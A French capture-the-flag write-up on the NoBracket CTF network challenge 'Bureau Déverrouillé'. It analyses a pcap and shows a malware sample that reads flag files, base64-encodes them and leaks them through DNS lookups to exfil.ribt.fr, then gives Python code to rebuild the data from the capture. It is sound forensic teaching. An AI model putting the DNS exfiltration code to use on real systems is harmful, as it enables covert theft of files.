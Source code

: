```yaml
---
layout: post
title: Bureau Déverrouillé
subtitle: Write-Up pour le NBCTF
tags: [writeup, reseau, prog]
comments: true
---
```

Bonjour ! Voici mon write-up sur le challenge **Bureau Déverrouillé** à l'occasion du NoBracket CTF. J'ai eu l'opportunité de terminer 2ème avec l'équipe nndy. Tout d'abord, un grand merci au créateur de 
ce challenge, ribt, ainsi qu'à tous les organisateurs et créateurs de challenges, que j'ai pu embêter à de nombreuses reprises à l'occasion de ce CTF. Mais sur ce, passons au challenge !

## Premier coup d'oeil
![Chall](https://github.com/0xBlackRaven/0xBlackRaven.github.io/blob/master/assets/img/challenge_description.png?raw=true){: .mx-auto.d-block :}

La description du challenge ne nous renseigne pas plus que ça sur ce qui aurait pu se passer, mais on peut supposer que des données ont été exfiltrées. Et que tout ça a été enregistré par une capture réseau.
Ca tombe bien, on est justement dans la catégorie réseau !
On télécharge le fichier fourni, sobrement intitulé **capture.pcapng**, on garde en pcapng parce que c'est next-gen et que notre wireshark peut le lire sans problème.

![Wireshark_le_goat](https://cdn.discordapp.com/attachments/822188888297963560/1173656631586865243/85vnqb.jpg?ex=6564bfea&is=65524aea&hm=216a9557f15a87dff50432c6b79ee7a1267ef92c73ecd29dc77af0bb14fa0479&){: .mx-auto.d-block :}

Et hop, on a notre fichier tout propre tout beau, que Wireshark peut lire.
On ouvre donc le fichier, et puis là... On est assez surpris par la longueur du fichier.
La capture fait 7491 trames, principalement des trames DNS. Une première intuition me fait dire que la plus grosse partie du challenge se déroulera là. Ensuite, nous avons au début quelque chose que j'interprète comme l'initialisation de quelque chose. Et là, détail me saute aux yeux : un GET de /malware.py, provenant du site ribt.fr sur le port 8000.

 ![Pas_discret](https://cdn.discordapp.com/attachments/822188888297963560/1173656521385705573/Capture_decran_24.png?ex=6564bfd0&is=65524ad0&hm=45274245d1a8992fc45430afab53f765d6d829bd0151cd1ae27d600e1b3b9a4b&){: .mx-auto.d-block :}

 ![Pas_discret2](https://media.tenor.com/gVHHuzDLos8AAAAC/tiens-tiens-tiens-booba.gif){: .mx-auto.d-block :}

 Nous faisons donc un `clic droit -> Suivre -> Flux TCP`
 Et nous avons notre malware en clair !
 
 ![Malware](https://cdn.discordapp.com/attachments/822188888297963560/1173657711565607042/Capture_decran_25.png?ex=6564c0eb&is=65524beb&hm=0ba9ba2479432ef2ac7aabae2f81f4cc5bbab369a3fe7b48c3bc2e55e23e7af7&){: .mx-auto.d-block :}
 
 Passons maintenant à l'analyse.
 
![Analyse](https://i.pinimg.com/736x/90/36/85/9036856e213e3f2e8161ae9bfaa24bfd.jpg){: .mx-auto.d-block :}

## Analyse du malware

 
Intéressons-nous tout d'abord à la première partie du code.
 ```python
files = os.listdir('.')
for f in files:
    if 'flag' in f:
        with open(f, 'rb') as flag:
            data = flag.read()
```
La première ligne recherche tous les fichiers situés dans le répertoire où l'utilisateur est situé, puis itère dessus dans une boucle for. Si le fichier a pour nom "flag", la condition est remplie, donc le programme ouvre l'image en mode lecture, puis stocke les données de flag dans data. Jusque là, rien de sorcier. La partie suivante sera un peu plus intéressante pour nous.

 ```python
encoded = base64.urlsafe_b64encode(data).decode().rstrip("=")
chunks = [encoded[i:i+63] for i in range(0, len(encoded), 63)]
```

Ce morceau de code, qui paraît barbare, est en fait assez simple à comprendre. Nos données, précédemment stockées dans data, sont encodées en base64 (qui je le rappelle n'est pas un mécanisme de chiffrement, pour éviter de vous faire taper par des fans de crypto).
Après, les données encodées sont séparées en morceaux de 63 dans cette liste par compréhension. En gros, cela découpe les données encodées en base64 en morceaux de taille similaire. C'est tout pour cette partie, on passe à la suivante.

```python
queries = [chunk + '.exfil.ribt.fr' for chunk in chunks]
for i in range(len(queries)):
    try:
        socket.gethostbyname(str(i)+"."+queries[i])
    except:
        pass
```

Ici, on se reprend une petite liste par compréhension, qui ajoute juste les morceaux qui avaient été faits avant à `.exfil.ribt.fr`. Tiens... Ca ressemble étrangement à ce qu'on a pu voir dans les requêtes DNS... Etrange. Notre intuition est par la suite confirmée. En gros, le programme tente de résoudre le nom de domaine `{indice de l'itération}.{data encodée en base64}.exfil.ribt.fr` pour trouver l'adresse IP. Mais c'est juste un moyen pour récupérer les données et les envoyer vers le serveur. Sûrement à des fins purement éducatives. Hum hum.
Mais nous avons fini l'analyse de notre malware. Maintenant, passons à la phase que je préfère (c'est faux) : le scripting. En utilisant bien sûr le langage aimé de tous, le bien nommé python.

## Scripting
Tout d'abord, j'avais authentiquement la flemme de manipuler le fichier pour récupérer toutes les trames DNS. C'est alors que j'ai fait un :
```console
blackraven@blackraven:~$ strings capture.pcapng > data.txt
```

Le créateur de ce challenge et moi étions cependant sur la même longueur d'onde quant à cette méthode :  

<iframe width="560" height="315" src="https://www.youtube.com/embed/dUtPtIMIG0I?si=YWsOgrrIVEr9WfVv" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>  

Donc bon, nous allons faire ça propre.
Je suis donc retourné dans Wireshark, puis je suis allé dans `Fichier -> Exporter analyse des paquets -> Texte brut`. 

Nous voilà maintenant avec un fichier `data_exfiltred.txt`
Nous allons tout d'abord spliter le fichier à chaque saut de ligne.
```python
with open("data_exfiltred.txt", 'rb') as flag:
    data = flag.read().split(b"\n")
```

Nous cherchons maintenant les données commençant par un nombre, suivi d'un point, lui-même suivi de texte. Mais comment faire ? Et bien avec des regex ! Les regex sauvent la vie, et sont très utiles dans pas mal de situations. Y compris celle-ci. Sauf que y'a théorie et pratique. En pratique, j'avais complétement oublié comment ça marchait. Alors le site [regex101](https://regex101.com) m'a bien sauvé la vie pour tester les regex.
![Oskour](https://cdn.discordapp.com/attachments/822188888297963560/1173701549474717796/85wglo.jpg?ex=6564e9bf&is=655274bf&hm=8a32193bae193d19c575ee9a7892a8435e380977c24913426b9b297eeb6659bb&){: .mx-auto.d-block :}
Une fois cette difficulté passée, le filtre devient assez simple à coder.
```python
    flag = []
    regex = re.compile(b"^\d+[?].+$")
    for elem in data:
        if regex.match(elem):
            flag.append(elem)
```

Après, nous enlevons les doublons dans le texte, grâce à mes supers talents en programmation, se résumant en un mot : StackOverflow.



